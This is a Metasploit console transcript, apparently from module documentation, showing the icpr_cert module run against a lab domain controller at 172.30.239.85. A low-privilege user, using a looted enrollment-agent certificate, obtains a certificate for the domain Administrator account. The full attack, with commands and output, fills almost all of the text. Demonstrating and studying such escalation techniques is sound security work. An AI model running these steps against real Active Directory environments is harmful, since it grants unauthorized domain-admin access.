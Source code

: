 ```

msf6 auxiliary(admin/dcerpc/icpr_cert) > set ON_BEHALF_OF DAFOREST\\Administrator
ON_BEHALF_OF => DAFOREST\Administrator
msf6 auxiliary(admin/dcerpc/icpr_cert) > set PFX /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
PFX => /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE User
CERT_TEMPLATE => User
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting                 Required  Description
   ----           ---------------                 --------  -----------
   ALT_DNS                                        no        Alternative certificate DNS
   ALT_UPN                                        no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA     yes       The target certificate authority
   CERT_TEMPLATE  User                            yes       The certificate template
   ON_BEHALF_OF   DAFOREST\Administrator          no        Username to request on behalf of (format: DOMAIN\USE
                                                            R)
   PFX            /home/gwillcox/.msf4/loot/2022  no        Certificate to request on behalf of
                  1216154930_default_unknown_win
                  dows.ad.cs_104207.pfx
   RHOSTS         172.30.239.85                   yes       The target host(s), see https://github.com/rapid7/me
                                                            tasploit-framework/wiki/Using-Metasploit
   RPORT          445                             yes       The target port (TCP)
   SMBDomain      DAFOREST                        no        The Windows domain to use for authentication
   SMBPass        normaluser                      no        The password for the specified username
   SMBUser        normal                          no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-500
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216155701_default_unknown_windows.ad.cs_756798.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > loot

Loot
====

host  service  type           name             content               info                         path
```